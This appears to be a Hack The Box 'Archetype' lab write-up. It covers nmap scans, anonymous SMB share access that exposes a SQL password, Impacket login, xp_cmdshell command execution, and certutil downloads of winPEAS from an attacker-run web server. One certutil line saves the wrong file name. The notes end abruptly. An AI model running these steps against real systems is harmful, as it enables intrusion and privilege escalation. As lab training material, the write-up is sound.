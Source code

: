 # Archetype
> Remote: 10.129.58.39
> Remote: 10.129.46.106  (reset)

> Local:  10.10.15.104
---

## Nmap
```
# nmap 10.129.58.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:47 EDT
Nmap scan report for 10.129.58.39
Host is up (0.048s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s

Nmap done: 1 IP address (1 host up) scanned in 1.02 seconds
```

```
# nmap -Pn -sS -sV -sC -O -p 1433 10.129.58.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:48 EDT
Nmap scan report for 10.129.58.39
Host is up (0.048s latency).

PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-info: 
|   10.129.58.39:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.129.58.39:1433: 
|     Target_Name: ARCHETYPE
|     NetBIOS_Domain_Name: ARCHETYPE
|     NetBIOS_Computer_Name: ARCHETYPE
|     DNS_Domain_Name: Archetype
|     DNS_Computer_Name: Archetype
|_    Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2024-05-12T17:39:52
|_Not valid after:  2054-05-12T17:39:52
|_ssl-date: 2024-05-12T17:49:05+00:00; +4s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

Host script results:
|_clock-skew: mean: 4s, deviation: 0s, median: 3s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.16 seconds
```

```
# nmap -Pn -sS -sV -sC -O -p 445 10.129.58.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:56 EDT
Nmap scan report for 10.129.58.39
Host is up (0.060s latency).

PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2019 (96%), Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 2004 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-12T17:56:38
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-05-12T10:56:35-07:00
|_clock-skew: mean: 2h20m04s, deviation: 4h02m30s, median: 4s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.28 seconds
```

```# nmap -p445 --script smb-enum-shares 10.129.58.39
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-12 13:59 EDT
Nmap scan report for 10.129.58.39
Host is up (0.059s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.129.58.39\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.129.58.39\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.129.58.39\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.129.58.39\backups: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: READ
|_    Current user access: READ

Nmap done: 1 IP address (1 host up) scanned in 39.07 seconds
```

---

## smbclient login

```
# smbclient //10.129.58.39/backups -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020

                5056511 blocks of size 4096. 2560203 blocks available
smb: \> get prod.dtsConfig 
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
smb: \> exit
```

`cat` the file to see the contents: 
```
# cat prod.dtsConfig 
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
```
Contents: 
- Password=M3g4c0rp123
- User ID=ARCHETYPE\sql_svc
- Initial Catalog=Catalog
- Provider=SQLNCLI10.1
- Persist Security Info=True
- Auto Translate=False

---

## IMPacket: mssqlclient.py
```
# python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.129.58.39
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
SQL (ARCHETYPE\sql_svc  dbo@master)> 
```

Typing `help` gets you a menu... 

What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell? 
- Answer: `xp_cmdshell` (executes cmd using xp_cmdshell)
- Example: `xp_cmdshell dir` runs `dir` as if from the cmd command line

What script can be used in order to search possible paths to escalate privileges on Windows hosts?
- Answer: winPEAS (Windows Privilege Escalation Awesome Scripts)
- [reference](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS) | [video](https://youtu.be/66gOwXMnxRI?si=p-LAKUSdIk8ICMBT)
1. Copy desired files from the repo to your local/attack machine. Example: `winPEAS.bat` and/or `winPEASany.exe`
2. Spin up a Python web server in that subdir to serve up those files. Example: `python3 -m http.server 8888`
3. Upload those files to the Windows target. Example:
```
certutil -urlcache -f http://[target_ip]:[port]/winPEAS.bat C:\tmp\winPEAS.bat
certutil -urlcache -f http://[target_ip]:[port]/winPEAS.bat C:\tmp\winPEASany.exe
```
5. Run winPEAS. Example: `c:\tmp\winPEAS.bat`

Command I ran in this HTB: 
```
SQL (ARCHETYPE\sql_svc  dbo@master)> xp_cmdshell c:\tmp\winPEAS.bat
```




- 
